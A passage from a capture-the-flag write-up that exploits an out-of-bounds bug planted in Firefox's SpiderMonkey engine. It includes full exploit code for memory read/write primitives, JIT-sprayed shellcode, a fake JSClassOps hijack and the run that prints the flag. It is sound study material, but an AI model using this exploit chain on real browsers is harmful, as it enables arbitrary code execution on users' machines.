to the object. The fourth argument (stored in `rcx` on Linux) contains a handle
(a pointer) to the value of the new property. This is perfect because we can
completely control this value, and for example we can pass the address of a
buffer containing a second-stage shellcode. Great!

We cannot directly overwrite the `JsClassOps` because they are stored in read-only
memory. However we can simply follow the chain of pointers from our object to
`JSClassOps` and replace the last pointer in the chain that is in writable memory
with a pointer to a fake. Again, this is all described in 0vercl0k's post so
I won't bore you with the details.

```js
// Return the address of a JavaScript object
function addrof(x) {
    a.oob(14, x);
    return b[0] & 0xffffffffffffn;
}

const addrof_target = addrof(target);
const target_shape = read64(addrof_target);
const target_base_shape = read64(target_shape);
const target_class = read64(target_base_shape);
const target_ops = read64(target_class + 0x10n);
print(`addrof(target) = ${hex(addrof_target)}`);
print(`target->shape = ${hex(target_shape)}`);
print(`target->shape->base_shape = ${hex(target_base_shape)}`);
print(`target->shape->base_shape->class = ${hex(target_class)}`);
print(`target->shape->base_shape->class->ops = ${hex(target_ops)}`);

const fake_class = new BigUint64Array(48);
const fake_class_buffer = read64(addrof(fake_class) + 0x30n);
for (let i = 0; i < 6; i++) {
    fake_class[i] = read64(target_class + BigInt(i) * 8n);
}

const fake_ops = new BigUint64Array(88);
const fake_ops_buffer = read64(addrof(fake_ops) + 0x30n);
for (let i = 0; i < 11; i++) {
    fake_ops[i] = read64(target_ops + BigInt(i) * 8n);
}

fake_ops[0] = stage1_addr;
fake_class[2] = fake_ops_buffer;
write64(target_base_shape, fake_class_buffer);

target.someprop = i2d(shellcode_addr);
```

Now all that we have to do is to get the JIT to compile our code and find it in
memory. The first part is easy, simply put it in a function and call it many times
in a loop until the JIT decides that the function is hot and compiles it:

```js
function jitme () {
    // ...
}

for (let i = 0; i < 100000; i++) {
    jitme();
}
```

The second part is a bit more tricky. JavaScript functions are represented by a
JSFunction, and we can find the region containing the compiled code for that
function by following pointers, like this (pointers to executable memory are
highlighted in red):



We can get the address of the function by storing it into our TypedArray with
`oob` and then reading the address back, then follow the pointers until the
code pointer. However the code pointer doesn't exactly point to the beginning
of the function, but rather to some other place in the same page. The author of
the writeup that I got the shellcode from solves this by embedding a magic
number in the shellcode and then searching for it using the arbitrary read/write.
We'll do the same.

```js
// Read size bytes from addr
function read(addr, size) {
    assert(size % 8n === 0n);
    let ret = new BigUint64Array(Number(size) / 8);
    for (let i = 0n; i < size / 8n; i++) {
        ret[i] = read64(addr + i * 8n)
    }
    return new Uint8Array(ret.buffer);
}

const addrof_jitme = addrof(jitme);
const codepage_addr = read64(read64(addrof_jitme + 0x28n)) & 0xfffffffffffff000n;
print(`addrof(jitme) = ${hex(addrof_jitme)}`);
print(`code page at = ${hex(codepage_addr)}`);

const code = read(codepage_addr, 0x1000n);

let stage1_offset = -1;
for (let i = 0; i < 0x1000 - 8; i++) {
    if (code[i] == 0x37 && code[i + 1] == 0x13 && code[i + 2] == 0x37
        && code[i + 3] == 0x13 && code[i + 4] == 0x37 && code[i + 5] == 0x13
        && code[i + 6] == 0x37 && code[i + 7] == 0x13) {
        stage1_offset = i + 14;
        break;
    }
}

assert(stage1_offset !== -1);
const stage1_addr = BigInt(stage1_offset) + codepage_addr;
print(`stage1_addr = ${hex(stage1_addr)}`);
```

That's basically it, not we just have to put it all together

```js
let converter = new ArrayBuffer(8);
let u64view = new BigUint64Array(converter);
let f64view = new Float64Array(converter);

// Bit-cast an uint64_t to a float64
function i2d(x) {
    u64view[0] = x;
    return f64view[0];
}

// Bit-cast a float64 to an uint64_t
function d2i(x) {
    f64view[0] = x;
    return u64view[0];
}

function print(x) {
    console.log(x);
}

function hex(x) {
    return `0x${x.toString(16)}`;
}

function assert(x, msg) {
    if (!x) {
        throw new Error(msg);
    }
}

// https://github.com/vigneshsrao/CVE-2019-11707/blob/master/exploit.js#L196
// mprotects the shellcode whose address is in [rcx] as rwx and jumps to it
function jitme () {
    const magic = 4.183559446463817e-216;

    const g1 = 1.4501798452584495e-277;
    const g2 = 1.4499730218924257e-277;
    const g3 = 1.4632559875735264e-277;
    const g4 = 1.4364759325952765e-277;
    const g5 = 1.450128571490163e-277;
    const g6 = 1.4501798485024445e-277;
    const g7 = 1.4345589835166586e-277;
    const g8 = 1.616527814e-314;
}

function pwn() {
    let a = new Array(1,2,3,4,5,6);
    let b = new BigUint64Array(1);

    // Read 64 bits from addr
    function read64(addr) {
        const olddata = a.oob(13);
        a.oob(13, i2d(addr))
        const ret = b[0];
        a.oob(13, olddata);
        return ret;
    }

    // Write 64 bits to addr
    function write64(addr, value) {
        const olddata = a.oob(13);
        a.oob(13, i2d(addr));
        b[0] = value;
        a.oob(13, olddata);
    }

    // Read size bytes from addr
    function read(addr, size) {
        assert(size % 8n === 0n);
        let ret = new BigUint64Array(Number(size) / 8);
        for (let i = 0n; i < size / 8n; i++) {
            ret[i] = read64(addr + i * 8n)
        }
        return new Uint8Array(ret.buffer);
    }

    // Return the address of a JavaScript object
    function addrof(x) {
        a.oob(14, x);
        return b[0] & 0xffffffffffffn;
    }

    for (let i = 0; i < 100000; i++) {
        jitme();
    }

    const addrof_jitme = addrof(jitme);
    const codepage_addr = read64(read64(addrof_jitme + 0x28n)) & 0xfffffffffffff000n;
    print(`addrof(jitme) = ${hex(addrof_jitme)}`);
    print(`code page at = ${hex(codepage_addr)}`);

    const code = read(codepage_addr, 0x1000n);
    let stage1_offset = -1;
    for (let i = 0; i < 0x1000 - 8; i++) {
        if (code[i] == 0x37 && code[i + 1] == 0x13 && code[i + 2] == 0x37
            && code[i + 3] == 0x13 && code[i + 4] == 0x37 && code[i + 5] == 0x13
            && code[i + 6] == 0x37 && code[i + 7] == 0x13) {
            stage1_offset = i + 14;
            break;
        }
    }

    assert(stage1_offset !== -1);
    const stage1_addr = BigInt(stage1_offset) + codepage_addr;
    print(`stage1_addr = ${hex(stage1_addr)}`);

    // execve('/reader')
    const shellcode = new Uint8Array([0x48, 0xb8, 0x1, 0x1, 0x1, 0x1, 0x1, 0x1, 0x1, 0x1, 0x50, 0x48, 0xb8, 0x2e, 0x73, 0x64, 0x60, 0x65, 0x64, 0x73, 0x1, 0x48, 0x31, 0x4, 0x24, 0x48, 0x89, 0xe7, 0x31, 0xd2, 0x31, 0xf6, 0x6a, 0x3b, 0x58, 0xf, 0x5, 0xcc]);

    const addrof_shellcode = addrof(shellcode);
    const shellcode_shape = read64(addrof_shellcode);
    const shellcode_base_shape = read64(shellcode_shape);
    const shellcode_class = read64(shellcode_base_shape);
    const shellcode_ops = read64(shellcode_class + 0x10n);
    const shellcode_data = read64(addrof_shellcode + 0x30n);
    print(`addrof(shellcode) = ${hex(addrof_shellcode)}`);
    print(`shellcode->shape = ${hex(shellcode_shape)}`);
    print(`shellcode->shape->base_shape = ${hex(shellcode_base_shape)}`);
    print(`shellcode->shape->base_shape->class = ${hex(shellcode_class)}`);
    print(`shellcode->shape->base_shape->class->ops = ${hex(shellcode_ops)}`);
    print(`shellcode->data = ${hex(shellcode_data)}`);

    const fake_class = new BigUint64Array(48);
    const fake_class_buffer = read64(addrof(fake_class) + 0x30n);
    for (let i = 0; i < 6; i++) {
        fake_class[i] = read64(shellcode_class + BigInt(i) * 8n);
    }

    const fake_ops = new BigUint64Array(88);
    const fake_ops_buffer = read64(addrof(fake_ops) + 0x30n);
    for (let i = 0; i < 11; i++) {
        fake_ops[i] = read64(shellcode_ops + BigInt(i) * 8n);
    }

    fake_ops[0] = stage1_addr;
    fake_class[2] = fake_ops_buffer;
    write64(shellcode_base_shape, fake_class_buffer);

    shellcode.someprop = i2d(shellcode_data);
}

try {
    pwn();
} catch (e) {
    print(`Got exception: ${e}`);
}
```

```
$ python3 upload.py
[+] Opening connection to outfoxed.be.ax on port 37685: Done
[*] Switching to interactive mode
Enter exploit followed by EOF: 
[GFX1-]: glxtest: libpci missing
[GFX1-]: glxtest: libGL.so.1 missing
[GFX1-]: glxtest: libEGL missing
[GFX1-]: No GPUs detected via PCI
[GFX1-]: RenderCompositorSWGL failed mapping default framebuffer, no dt
corctf{just_4_b4by_f0x}
[*] Interrupted
[*] Closed connection to outfoxed.be.ax port 37685
```

## Conclusion

In this challenge we exploited a bug in SpiderMonkey to gain arbitrary native
code execution. I had never worked with Firefox before so this was a nice change
from the usual Chrome challenges and at the same time it shows how similar the
various JS engines are. Thanks to the author for writing this!